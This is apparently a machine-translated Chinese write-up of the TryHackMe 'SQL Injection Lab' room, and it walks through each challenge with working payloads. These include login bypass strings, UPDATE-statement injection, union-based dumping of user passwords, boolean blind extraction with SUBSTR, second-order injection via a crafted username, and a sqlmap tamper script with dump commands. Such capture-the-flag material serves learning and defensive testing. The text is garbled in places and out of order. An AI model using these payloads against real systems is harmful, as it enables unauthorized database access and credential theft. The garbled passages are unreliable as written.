*****在这个挑战中，应用程序在过程的早期执行查询。然后，它在第二个查询中使用第一个查询的结果，而不进行清理。这两个查询都容易受到攻击，第一个查询可以通过盲 SQL 注入被利用。然而，由于第二个查询也是易受攻击的，所以可以简化利用并使用基于联合的注入来代替基于布尔的盲注入；使开发更容易，噪音更小。任务的目标是在不使用盲 SQL 注入的情况下滥用此漏洞并取回旗帜。*****

# *****描述*****

*****当用户首次登录挑战时，会出现一条消息，提示他们:*****

```
*****Testing a new function to search for books, check it out here*****
```

*****“此处”文本是一个链接，将用户带到[http://10 . 10 . 141 . 207:5000/challenge 7/book？title=test](http://10.10.141.207/challenge7/book?title=test) ，这是包含易受攻击的搜索功能的页面，可以在此处看到:*****

**********

*****当搜索书名时，网页执行 GET 请求。然后应用程序执行两个查询，第一个查询获取书的 ID，然后在这个过程的后面，执行一个新的 SQL 查询来获取关于书的所有信息。这里可以看到两个查询:*****

```
*****bid = db.sql_query(f"SELECT id FROM books WHERE title like '{title}%'", one=True)if bid:query = f"SELECT * FROM books WHERE id = '{bid['id']}'"*****
```

*****首先，我们将结果限制为零行，这可以通过不给它任何输入或我们知道不存在的输入来实现。然后，我们可以使用 UNION 子句来控制第一个查询返回的内容，即第二个查询将使用的数据。这意味着我们可以在搜索字段中注入以下值:*****

```
*****' union select 'STRING*****
```

*****注入上述代码后，应用程序将执行以下 SQL 查询:*****

**********

*****从查询中，我们可以看到第一个查询的结果是 STRING%，它用在第二个查询的 WHERE 子句中。*****

*****如果我们用数据库中存在的数字替换' STRING ',应用程序应该返回一个有效的对象。但是，应用程序在字符串中添加了通配符(%)，这意味着我们必须首先注释掉通配符。可以通过在我们注入的字符串末尾附加'—'来注释掉通配符。例如，如果我们注入以下代码行:*****

```
*****' union select '1'-- -*****
```

*****应用程序应该向用户显示 ID 为 1 的图书，如下所示:*****

**********

*****如果我们没有首先将结果限制为零行，我们就不会得到 UNION 语句的输出，而是会得到 LIKE 子句的内容。例如，通过注入以下字符串:*****

```
*****test' union select '1'-- -*****
```

*****应用程序将执行以下查询:。*****

**********

*****现在我们已经完全控制了第二个查询，我们可以使用基于联合的 SQL 注入从数据库中提取数据。目标是使第二个查询类似于以下查询:*****

```
*****SELECT * FROM books WHERE **id** = '' union select 1,2,3,4-- -*****
```

*****让应用程序执行上面的查询应该和注入下面的查询一样简单:*****

```
*****' union select '1' union select 1,2,3,4-- -*****
```

*****但是，我们通过在第二个 UNION 子句前附加单引号(')来结束应该返回的字符串。为了使查询有效并返回第二个 UNION 子句，我们必须对单引号进行转义。对单引号进行转义可以通过将引号(')对折来完成。将引号加倍后，我们得到以下字符串:*****

```
*****' union select '-1''union select 1,2,3,4-- -*****
```

*****注入上面的字符串将返回如下所示的页面:*****

**********

# *****工作*****

*****使用你所了解的关于 SQL 注入联盟的知识，利用易受攻击的图书搜索功能来检索旗帜*****

```
*****' union select '-1''union select 1,group_concat(username),group_concat(password),4 from users-- -*****
```

**********

*****嘣！我们拿到最后一面旗了*****

*****你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)*****

**********

*****如需更多演练，请在出发前继续关注…
…*****

*****访问我的其他演练:-*****

*****[](https://shamsher-khan.medium.com/linux-privesc-tryhackme-writeup-df48d3f77d19) [## Linux PrivEsc Tryhackme 文章

### 作者 Shamsher khan 这是一篇关于 Tryhackme room“JLinux PrivEsc”的文章

shamsher-khan.medium.com](https://shamsher-khan.medium.com/linux-privesc-tryhackme-writeup-df48d3f77d19) [](https://shamsher-khan.medium.com/dns-manipulation-tryhackme-writeup-931b06ef02cd) [## DNS 操纵尝试黑客技术

### 这是一篇关于 Tryhackme room“DNS 操纵”的文章

shamsher-khan.medium.com](https://shamsher-khan.medium.com/dns-manipulation-tryhackme-writeup-931b06ef02cd) [](https://link.medium.com/DNfhWzmtveb) [## Wekor Tryhackme 报道

### 作者 Shamsher khan 这是一篇关于 Tryhackme room“Wekor”的文章

link.medium.com](https://link.medium.com/DNfhWzmtveb) 

[https://shams her-Khan . medium . com/SQL-injection-tryhackme-writeup-e7c 78542 bfb 9](https://shamsher-khan.medium.com/sql-injection-tryhackme-writeup-e7c78542bfb9)

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
给有类似兴趣的人帮助！+随时欢迎反馈！SQL 注入实验室 Tryhackme 书面报告

**作者 Shamsher khan 这是一篇关于 Tryhackme 室“SQL 注入实验室”的文章**


[https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)

**房间链接:**[https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)
**注:此房免费**

在你完成这个记录之前，先完成这个房间

## [SQL 注入 Tryhackme 写文章](https://shamsher-khan.medium.com/sql-injection-tryhackme-writeup-e7c78542bfb9)


[https://shams her-Khan . medium . com/SQL-injection-tryhackme-writeup-e7c 78542 bfb 9](https://shamsher-khan.medium.com/sql-injection-tryhackme-writeup-e7c78542bfb9)

# 任务 SQL 注入简介:第 1 部分

SQL 注入是一种技术，通过这种技术，攻击者可以执行他们自己的恶意 SQL 语句，通常称为恶意负载。通过恶意的 SQL 语句，攻击者可以从受害者的数据库中窃取信息；更糟糕的是，他们可能能够对数据库进行更改。我们的员工管理 web 应用程序有 SQL 注入漏洞，它模仿了开发人员经常犯的错误。

应用程序通常需要动态 SQL 查询来根据用户设置的不同条件显示内容。为了支持动态 SQL 查询，开发人员通常将用户输入直接连接到 SQL 语句中。如果不对接收到的输入进行检查，字符串连接将成为导致 SQL 注入漏洞的最常见错误。如果没有输入敏感性，用户可以让数据库将用户输入解释为 SQL 语句，而不是数据。换句话说，攻击者必须能够访问一个他们可以控制的参数，这个参数将进入 SQL 语句。通过控制参数，攻击者可以注入恶意查询，该查询将由数据库执行。如果应用程序没有从攻击者控制的参数中清理给定的输入，查询将容易受到 SQL 注入攻击。

下面的 PHP 代码演示了从。来自 POST 请求的用户和密码变量被直接连接到 SQL 语句中。

```
$query = "SELECT * FROM users WHERE username='" + $_POST["user"] + "' AND password= '" + $_POST["password"]$ + '";"
```

如果攻击者在 name 参数中提供值“OR 1=1”，查询可能会返回多个用户。大多数应用程序将处理返回的第一个用户，这意味着攻击者可以利用这一点，并作为查询返回的第一个用户登录。双破折号(—)序列是 SQL 中的注释指示符，导致查询的其余部分被注释掉。在 SQL 中，字符串包含在单引号(')或双引号(")中。输入中的单引号(')用于结束字符串文字。如果攻击者在 name 参数中输入' OR 1 = 1--，并将密码留空，那么上面的查询将产生下面的 SQL 语句。

```
SELECT * FROM users WHERE username = '' OR 1=1-- -' AND password = ''
```

如果数据库执行上面的 SQL 语句，将返回 users 表中的所有用户。因此，攻击者绕过应用程序的身份验证机制，作为查询返回的第一个用户登录。

使用— —而不是——的原因主要是因为 MySQL 处理双破折号注释样式的方式。

从序列到行尾。在 MySQL 中——(双破折号)注释样式要求第二个破折号后面至少跟一个空格或控制字符(比如空格、制表符、换行符等等)。这种语法与标准的 SQL 注释语法略有不同，如 1.7.2.4 章节“作为注释的开始”中所讨论的。([](https://dev.mysql.com/doc/refman/8.0/en/comments.html)****)****

**内联 SQL 注释最安全的解决方案是使用— <space><any character="">比如—，因为如果它被 URL 编码成—% 20—它仍然会被解码为—。更多信息，请参见:[](https://blog.raw.pm/en/sql-injection-mysql-comment/)</any></space>**

****SQL 注入 1:输入框非字符串****

****当用户登录时，应用程序执行以下查询:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'**
```

****登录时，用户向 profileID 参数提供输入。对于这个挑战，参数接受一个整数，如下所示:****

```
**profileID=10**
```

****因为没有输入清理，所以可以通过使用任何真条件(例如下面的条件)作为 ProfileID 来绕过登录****

```
**1 or 1=1-- -**
```

****绕过登录并检索标志。****

****SQL 注入 2:输入框字符串****

****这个挑战使用与前一个挑战相同的查询。但是，该参数需要的是字符串而不是整数，如下所示:****

```
**profileID='10'**
```

****因为它需要一个字符串，所以我们需要修改我们的有效负载来稍微绕过登录。下面一行将让我们进入:****

```
**1' or '1'='1'-- -**
```

****绕过登录并检索标志。****

****SQL 注入 3 和 4: URL 和 POST 注入****

****这里，SQL 查询与前一个相同:****

```
**SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'**
```

****但是在这种情况下，恶意用户输入不能通过登录表单直接注入到应用程序中，因为已经实现了一些客户端控件:****

```
**function **validateform**() {var profileID = document.inputForm.profileID.value;var password = document.inputForm.password.value;if (/^[a-zA-Z0-9]*$/.**test**(profileID) == false || /^[a-zA-Z0-9]*$/.**test**(password) == false) {**alert**("The input fields cannot contain special characters");return false;}if (profileID == null || password == null) {**alert**("The input fields cannot be empty.");return false;}}**
```

****上面的 JavaScript 代码要求 profileID 和密码只包含 a-z、A-Z 和 0–9 之间的字符。客户端控件只是为了改善用户体验，并不是一种安全功能，因为用户可以完全控制客户端及其提交的数据。例如，可以使用 Burp Suite 等代理工具绕过客户端 JavaScript 验证**(**[**https://ports wigger . net/support/using-Burp-to-bypass-client-side-JavaScript-validation**](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)**)**。****

******q . 1**:SQL 注入 1:输入框非字符串的标志是什么？****

****************

******q . 2**:SQL 注入 2:输入框字符串的标志是什么？****

****************

******q . 3**:SQL 注入 3: URL 注入的标志是什么？****

****此挑战在提交登录表单时使用 GET 请求，如下所示:****

********

****通过直接访问以下 URL，可以轻松绕过登录和客户端验证:****

```
**[http://10.10.231.136:5000/sesqli3/login?profileID=](http://10.10.231.136:5000/sesqli3/login?profileID=-1')a' or 1=1 --a' or 1=1 --&password=a**
```

****浏览器会自动为我们进行 URL 编码。因为 HTTP 协议不支持请求中的所有字符，所以需要 Urlencoding。进行 urlencoded 时，URL 如下所示:****

****使用 **HackBar 2 扩展**将您的有效负载转换成 urlencode****

****************

```
**a'%20or%201%3d1%20--10.10.231.136:5000/sesqli3/login?profileID=a'%20or%201%3d1%20--&password=a**
```

****%27 变成单引号(')，而%20 变成空格。****

****************

******问题 4**:SQL 注入 4: POST 注入的标志是什么？****

******SQL 注入 4: POST 注入**在提交这个挑战的登录表单时，它使用 HTTP POST 方法。可以删除/禁用验证登录表单的 JavaScript，或者提交一个有效的请求并用代理工具(如 Burp Suite)拦截并修改它:****

****这意味着 url 将不显示任何参数****

****这就是为什么我们使用 burpsuite 来查看参数并更改它****

********

****捕获请求****

********

****用**a’或 1=1 —** 更改 profileID****

********

****并点击转发****

********

# ****任务 SQL 注入简介:第 2 部分****

****登录“SQL 注入 5:更新语句”挑战并利用易受攻击的配置文件页面来查找标志。可以使用的凭据有:****

****profileID: **10******

****密码: **toor******

****这里必须完成为查找表和列名而演示的相同枚举，因为标志存储在另一个表中。****

****************

## ****对更新语句的 SQL 注入攻击****

****如果 SQL 注入发生在 UPDATE 语句上，损害可能会严重得多，因为它允许用户更改数据库中的记录。在员工管理应用程序中，有一个编辑个人资料页面，如下图所示。****

********

****此编辑页面允许员工更新他们的信息，但他们不能访问所有可用字段，用户只能更改他们的信息。如果表单易受 SQL 注入攻击，攻击者可以绕过实现的逻辑，更新他们不应该更新的字段，或者为其他用户更新字段。****

****我们现在将通过配置文件页面上的 UPDATE 语句来枚举数据库。我们将假设我们没有数据库的先验知识。通过查看网页的源代码，我们可以通过查看 name 属性来识别潜在的列名。这些列不一定需要命名为 this，但是很有可能命名为 this，而且像“email”和“password”这样的列名并不少见，很容易被猜到。****

********

****为了确认表单易受攻击并且我们有有效的列名，我们可以尝试在昵称和电子邮件字段中插入类似以下代码的内容:****

```
**asd',nickName='test',email='hacked**
```

****当将恶意有效载荷注入昵称字段时，仅更新昵称。当注入电子邮件字段时，两个字段都会更新:****

****************

****第一个测试确认了应用程序易受攻击，并且我们有正确的列名。如果我们有错误的列名，那么任何字段都不会被更新。由于这两个字段都是在注入恶意负载后更新的，因此原始 SQL 语句可能类似于以下代码:****

```
**UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>**
```

****有了这些知识，我们就可以尝试识别正在使用的数据库。有几种方法可以做到这一点，但最简单的方法是让数据库识别自己。以下查询可用于识别 MySQL、MSSQL、Oracle 和 SQLite:****

```
*****# MySQL and MSSQL***',nickName=@@version,email='***# For Oracle***',nickName=(SELECT banner FROM v$version),email='***# For SQLite***',nickName=sqlite_version(),email='**
```

****************

****知道我们在处理什么样的数据库，就更容易理解如何构造我们的恶意查询。我们可以通过提取所有的表来枚举数据库。在下面的代码中，我们执行一个子查询来从数据库中获取所有的表，并将它们放入昵称字段中。子查询包含在参数中。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数用于同时转储所有的表。****

> *****"**[***group _ concat()***](https://sqlite.org/lang_aggfunc.html#groupconcat)*函数返回一个字符串，该字符串是 x 的所有非空值的串联。如果参数 Y 存在，则它用作 x 实例之间的分隔符。如果省略 Y，则逗号("，")用作分隔符。连接元素的顺序是任意的。******

```
***',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='***
```

**********

*****通过注入上面的代码，我们可以看到数据库中唯一的表叫做" **usertable** 和" **secrets"*******

**********

*****然后我们继续从**用户表:**中提取所有的列名*****

```
***',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='***
```

**********

*****正如下面可以看到的，用户表包含以下列:UID、name、profileID、salary、passportNr、email、nickName 和 password:*****

**********

*****通过知道列的名称，我们可以从数据库中提取我们想要的数据。例如，下面的查询将从 secrets 中提取 profileID、名称和密码。子查询使用 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数同时转储所有信息，而 [||](https://sqlite.org/lang_expr.html#operators) 运算符是“concatenate”——它将操作数**(**[**sqlite.org**](https://sqlite.org/lang_expr.html#operators)**)的字符串连接在一起。*******

```
***',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='***
```

********************

*****嘣！我们得到了**旗帜*******

# *****任务 4:易受攻击的启动:身份验证被破坏*****

*****从 [http://10.10.110.236:5000、](http://MACHINE_IP:5000,)上的登陆页面，转到 Track:Vulnerable Startup([http://10 . 10 . 110 . 236:5000/challenge 1/](http://10.10.110.236:5000/challenge1/))下的 Broken Authentication。*****

**********

*****绕过登录并检索标志。*****

**********

# *****任务 5:易受攻击的启动:身份验证被破坏 2*****

# *****目标*****

*****这个挑战建立在之前的挑战之上。这里的目标是找到一种方法，在不使用盲目注入的情况下，转储数据库中的所有密码来检索标志。*****

# *****描述*****

*****登录表单仍然易受 SQL 注入攻击，使用 **'** **或 1 = 1—**作为用户名可以绕过登录。*****

*****在转储所有密码之前，我们需要确定登录查询的结果在应用程序中返回的位置。登录后，当前登录用户的名称显示在右上角，因此可以将数据转储到那里，如下所示:*****

********************

*****来自查询的数据也可以存储在会话 cookie 中。可以通过在浏览器中打开开发人员工具来提取会话 cookie，这可以通过按 F12 来完成。然后导航到存储并复制会话 cookie 的值，如下所示:*****

**********

*****然后可以在[**https://www.kirsle.net/wizards/flask-session.cgi**](https://www.kirsle.net/wizards/flask-session.cgi)或通过自定义脚本解码 cookie。通过访问[**http://10 . 110 . 236:5000/download/decode _ cookie . py**](http://10.10.110.236:5000/download/decode_cookie.py)，可以在虚拟机内部下载用于解码 cookie 的脚本。*****

*****使用用户名**或 1 = 1—**登录后，可以在下面看到解码后的 cookie，很明显来自登录查询的用户 id 和用户名被放在其中。*****

********************

*****使用基于联盟的 SQL 注入可以转储密码。要使基于工会的注入发挥作用，必须满足两个关键要求:*****

*   *****注入查询中的列数必须与原始查询中的列数相同*****
*   *****每列的数据类型必须与相应的类型相匹配*****

*****当登录到应用程序时，它执行下面的查询。从 SQL 语句中，我们可以看到它正在检索两列；id 和用户名。*****

```
***SELECT **id**, username FROM users WHERE username = '" + username + "' AND password = '" + password + "'***
```

*****一个一个地试试这个*****

```
***1' UNION SELECT NULL-- -1' UNION SELECT NULL, NULL-- -1' UNION SELECT NULL, NULL, NULL-- -***
```

********************

*****它显示查询已执行。在这种情况下，成功意味着当注入正确数量的列时，应用程序将成功登录。在其他情况下，如果启用了错误消息，当注入的列数不正确时，可能会显示一条警告，指出“UNION 左侧和右侧的选择没有相同的结果列数”。*****

*****通过使用**UNION SELECT 1，2 — -** 作为用户名，我们匹配了原始 SQL 查询中的列数，应用程序允许我们进入。登录后，我们可以看到用户名被替换为整数 2，这是我们在注入查询中用作第二列的内容。*****

********************

*****会话 cookie 中的用户名也是如此。通过解码，我们可以看到用户名已经被替换为与上面相同的值*****

********************

*****枚举数据库以查找表和列，就像我们在任务 2 SQL 注入介绍中所做的那样。像[**payloads all things**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)**这样的备忘单对此很有帮助。挑战的目标是转储所有密码以获得标志，所以在这种情况下，我们将猜测列名是*密码*，表名是*用户*。按照这种逻辑，可以使用以下代码转储密码:*******

```
*****' UNION SELECT 1, password from users-- -*****
```

****************************

*******但是，前面的语句只会返回一个密码。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数可以帮助实现同时转储所有密码的目的。*******

*******通过将以下代码插入用户名字段:*******

```
*****' UNION SELECT 1,group_concat(password) FROM users-- -*****
```

**************

*******嘣！我们得到了**标志*********

# *****任务 6:易受攻击的启动:被破坏的认证 3(盲目注入)*****

# *****目标*****

*****这个挑战和前一个挑战有相同的弱点。但是，不再可能从 Flask 会话 cookie 或通过用户名显示提取数据。登录表单仍然有同样的漏洞，但这一次的目标是滥用与盲目 SQL 注入登录表单提取管理员的密码。*****

# *****描述*****

*****基于布尔的盲 SQL 注入将用于提取密码。手动盲注既繁琐又耗时，因此计划构建一个脚本来逐字符提取密码。在制作自动化注入的脚本之前，理解注入是如何工作的是至关重要的。这个想法是发送一个 SQL 查询，询问密码中每个字符的真假。将分析应用程序的响应，以了解数据库返回的是真还是假。在这种情况下，如果响应成功，应用程序将让我们进入，或者在返回 false 的情况下，它将停留在登录页面上，显示“无效的用户名或密码”，如下图所示。*****

**********

*****如前所述，我们将向数据库发送密码中每个字符的布尔问题，询问数据库我们是否已经猜出了正确的字符。为了实现这一点，我们需要一种方法来控制我们所在的字符，并在每次我们猜测到当前位置的正确字符时递增它。SQLite 的 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数可以帮助我们实现这个功能。*****

*****" SQLite substr 函数从一个字符串中返回一个从指定位置开始的具有预定义长度的子字符串."( [SQLite 教程](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/))*****

*****[substr](https://sqlite.org/lang_corefunc.html#substr) 的第一个参数是字符串本身，它将是管理员的密码。第二个参数是起始位置，第三个参数是将要返回的子字符串的长度。*****

```
***SUBSTR( string, <start>, <length>)***
```

*****下面是一个使用中的 [substr](https://sqlite.org/lang_corefunc.html#substr) 的例子——等号(=)后面的字符表示返回的子字符串。*****

```
***-- Changing startSUBSTR("THM{Blind}", 1,1) = TSUBSTR("THM{Blind}", 2,1) = HSUBSTR("THM{Blind}", 3,1) = M-- Changing lengthSUBSTR("THM{Blind}", 1,3) = THM***
```

*****下一步是将管理员的密码作为字符串输入到 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数中。这可以通过以下查询实现:*****

```
***(SELECT password FROM users LIMIT 0,1)***
```

*****[LIMIT](https://sqlite.org/lang_select.html#limitoffset) 子句用于限制 SELECT 语句返回的数据量。第一个数字 0 是偏移量，第二个整数是限值:*****

```
***LIMIT <OFFSET>, <LIMIT>***
```

*****以下是[限制](https://sqlite.org/lang_select.html#limitoffset)条款的几个实例。右边的表代表用户表。*****

```
***sqlite> SELECT password FROM users LIMIT 0,1THM{Blind}sqlite> SELECT password FROM users LIMIT 1,1Summer2019!sqlite> SELECT password FROM users LIMIT 0,2THM{Blind}Summer2019!***
```

*****THM { Blind }夏季！维京 123*****

*****返回管理员密码第一个字符的 SQL 查询如下所示:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)***
```

*****现在我们需要一种方法来比较密码的第一个字符和我们猜测的值。比较字符很容易，我们可以这样做:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'***
```

*****然而，这种方法是否有效将取决于应用程序如何处理输入。对于这个挑战，应用程序将用户名转换为小写，这打破了前面提到的方法，因为大写 T 与小写 T 不同。ASCII T 的十六进制表示是 0x54，小写 T 是 0x74。为了处理这个问题，我们可以通过替换类型 [X](https://www.sqlite.org/printf.html#substitution_types) 将字符输入为十六进制表示，然后使用 SQLite 的 [CAST](https://sqlite.org/lang_expr.html#castexpr) 表达式将值转换为数据库期望的数据类型。*****

*****" X，X:参数是以十六进制显示的整数。小写的十六进制用于%x，大写的用于% X”“(【sqlite.org】T4)*****

*****这意味着我们可以将 T 输入为 X'54 '。要将值转换为 SQLite 的文本类型，我们可以使用如下的 CAST 表达式:CAST(X'54' as Text)。我们最后的查询现在看起来如下:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)***
```

*****在使用我们构建的查询之前，我们需要使它适合原始查询。我们的查询将放在用户名字段中。我们可以通过添加一个单引号(')来关闭 username 参数，然后附加一个 and 运算符来添加我们的条件。然后在查询末尾添加两个破折号(—)来注释掉密码检查。完成后，我们恶意查询如下所示:*****

```
***admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -***
```

*****当将其注入用户名字段时，数据库执行的最终查询将是:*****

```
***SELECT **id**, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)***
```

*****如果应用程序响应 302 重定向，那么我们就找到了密码的第一个字符。为了获得完整的密码，攻击者必须对密码中的每个字符进行多次测试。测试每一个字符都很繁琐，使用脚本更容易实现。一个简单的解决方案是遍历每个可能的 ASCII 字符，并将其与数据库的字符进行比较。上述方法会产生大量流向目标的流量，但不是最有效的方法。机器内部提供了一个示例脚本，可以通过进入[**http://10 . 110 . 236:5000/view/challenge 3/challenge 3-exploit . py**](http://10.10.110.236:5000/view/challenge3/challenge3-exploit.py)**查看和下载；**注意，有必要使用 password_len 变量更改密码长度。密码的长度可以通过查询数据库找到。例如，在下面的查询中，我们询问数据库密码的长度是否等于 37:*****

```
***admin' AND length((SELECT password from users where username='admin'))==37-- -***
```

********************

*****此外，该脚本需要大量不必要的请求。一个额外的挑战可能是建立一个更有效的工具来检索密码。*****

*****解决这一挑战的另一种方法是使用 sqlmap 之类的工具，这是一种开源工具，可以自动化检测和利用 SQL 注入缺陷的过程。以下命令可用于利用 sqlmap 漏洞:*****

```
***sqlmap -u [http://10.10.110.236:5000/challenge3/login](http://10.10.110.236:5000/challenge3/login) --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump***
```

**********

# *****任务 7:易受攻击的启动:易受攻击的注释*****

## *****目标*****

*****在这里，以前的漏洞已被修复，登录表单不再容易受到 SQL 注入。该团队增加了一个新的注释功能，允许用户在他们的页面上添加注释。这个挑战的目标是找到漏洞并转储数据库以找到标志。*****

## *****描述*****

*****通过注册新帐户并登录应用程序，用户可以通过点击左上方菜单中的“Notes”来导航到新的 Notes 功能。在这里，可以添加新的注释，所有用户的注释都列在页面的底部，如下所示:*****

**********

*****notes 函数不是直接易受攻击的，因为插入 notes 的函数是安全的，因为它使用参数化查询。对于参数化查询，SQL 语句首先用占位符(？)为参数。然后，用户输入被传递到查询的每个参数中。参数化查询允许数据库区分代码和数据，而不管输入是什么。*****

```
***INSERT INTO notes (username, title, note) VALUES (?, ?, ?)***
```

*****即使使用了参数化查询，如果应用程序不清理恶意数据，服务器也会接受恶意数据并将其放入数据库中。不过，参数化查询会阻止输入指向 SQL 注入。由于应用程序可能接受恶意数据，所有查询都必须使用参数化查询，而不仅仅是直接接受用户输入的查询。*****

*****用户注册函数也利用参数化查询，所以当执行下面的查询时，只执行 INSERT 语句。它将接受任何恶意的输入，如果不清理它，就把它放在数据库中，但是参数化查询防止输入导致 SQL 注入。*****

```
***INSERT INTO users (username, password) VALUES (?, ?)***
```

*****但是，获取属于用户的所有笔记的查询不使用参数化查询。用户名被直接连接到查询中，这使得它容易受到 SQL 注入的攻击。*****

```
***SELECT title, note FROM notes WHERE username = '" + username + "'***
```

*****这意味着，如果我们用一个恶意的名称注册一个用户，一切都会很好，直到用户导航到 notes 页面，不安全的查询试图为恶意用户获取数据。*****

*****通过使用以下名称创建用户:*****

```
***' union select 1,2'***
```

*****我们应该能触发二次注射:*****

**********

*****使用此用户名，应用程序执行以下查询:*****

```
***SELECT title, note FROM notes WHERE username = '' union select 1,2''***
```

*****然后在新用户的 notes 页面上，我们可以看到查询中的第一列是注释标题，第二列是注释本身:*****

**********

*****有了这些知识，这就很容易被利用。例如，要从数据库中获取所有的表，我们可以创建一个名为:*****

```
***' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''***
```

*****要在密码中找到该标志，请注册一个用户名:*****

*****' union select 1，group _ concat(password from users '*****

*****使用 Sqlmap 自动化开发*****

*****可以使用 sqlmap 来自动化这种攻击，但是使用 sqlmap 的标准攻击将会失败。注入发生在用户注册时，但是易受攻击的函数位于注释页面上。要让 sqlmap 利用此漏洞，它必须执行以下步骤:*****

1.  *****注册一个恶意用户*****
2.  *****恶意用户登录*****
3.  *****转到注释页面触发注射*****

*****通过创建篡改脚本可以实现所有必要的步骤。Sqlmap 支持篡改脚本，即用于篡改注入数据的脚本。使用篡改脚本，我们可以轻松地修改有效负载，例如，向它添加自定义编码。它还允许我们设置其他东西，比如 cookies。*****

*****下面的篡改脚本中有两个自定义函数。第一个函数是 *create_account()* ，它用 sqlmap 的有效负载作为名称，用‘ASD’作为密码注册一个用户。下一个定制函数是 *login()* ，它以新创建的用户身份登录 sqlmap 并返回 Flask 会话 cookie。 *tamper()* 是脚本中的主要函数，它有*有效负载*和 ***kwargs* 作为参数。 ***kwargs* 保存诸如 HTTP 头之类的信息，我们需要将 Flask 会话 cookie 放在请求上，以允许 sqlmap 转到 notes 页面来触发 SQL 注入。 *tamper()* 函数首先从 *kwargs* 获取头，然后在应用程序上创建一个新用户，然后登录到应用程序并在 HTTP 头对象上设置 Flask 会话。*****

```
****#!/usr/bin/python*import requestsfrom lib.core.enums import PRIORITY__priority__ = PRIORITY.NORMALaddress = "http://10.10.1.134:5000/challenge4"password = "asd"def **dependencies**():passdef **create_account**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/signup", data=data)def **login**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/login", data=data)sessid = s.cookies.get("session", None)return "session={}".format(sessid)def **tamper**(payload, **kwargs):headers = kwargs.get("headers", {})create_account(payload)headers["Cookie"] = login(payload)return payload***
```

*****篡改脚本所在的文件夹也需要一个空的 *__init__。py* 文件，以便 sqlmap 能够加载它。在使用篡改脚本启动 sqlmap 之前，更改脚本中的地址和密码变量。完成后，就可以使用以下命令利用该漏洞:*****

```
***sqlmap --tamper so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup)  --data "username=admin&password=asd"--second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes)  -p username --dbms sqlite --technique=U --no-cast*# --tamper so-tamper.py - The tamper script**# --url - The URL of the injection point, which is /signup in this case**# --data - The POST data from the registraion form to /signup.**#   Password must be the same as the password in the tamper script**# --second-url* [*http://10.10.1.134:5000/challenge4/notes*](http://10.10.1.134:5000/challenge4/notes) *- Visit this URL to check for results**# -p username - The parameter to inject to**# --dbms sqlite - To speed things up**# --technique=U - The technique to use. [U]nion-based**# --no-cast - Turn off payload casting mechanism****
```

*****如果不使用 *—无转换*参数关闭有效负载转换机制，转储*用户*表可能会很困难。这里可以看到铸造和不铸造之间区别的一个例子:*****

## *****—启用铸造时:*****

```
***admin' union **all** select **min**(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master where tbl_name=cast(x'7573657273' as text)-- daqo'-- 7573657273 is 'users' in **ascii*****
```

## *****—无铸件:*****

```
***admin' union **all** select cast(x'717a6a7871' as text)||**id**||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null from users-- ypfr'***
```

*****当 sqlmap 询问时，回答 no 以遵循 302 重定向，然后回答 yes 以继续进一步测试，如果它检测到一些 WAF/IP。当被问及是否要在以后的请求中合并 cookies 时，回答 no，说 no 以减少请求的数量。如下图所示，sqlmap 能够找到漏洞，这使我们能够自动利用它。*****

**********

*****然后可以通过转储*用户*表找到该标志:*****

```
***sqlmap --tamper tamper/so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast -T users --dump***
```

*****Sqlmap 非常嘈杂，会增加很多试图利用这个应用程序的用户。因此，输出将被修整，可以看到下面的消息。*****

```
***[WARNING] console output will be trimmed to last 256 rows due to large table size***
```

*****但是，所有数据都会保存并写入转储文件，如下图所示。读取转储文件的顶部以获取标志:*****

**********

*******注意:**在实时系统中，标记会有所不同。*****

# *****工作*****

*****利用易受攻击的函数并检索标志。*****

*****这次挑战的旗帜是什么？*****

******************************

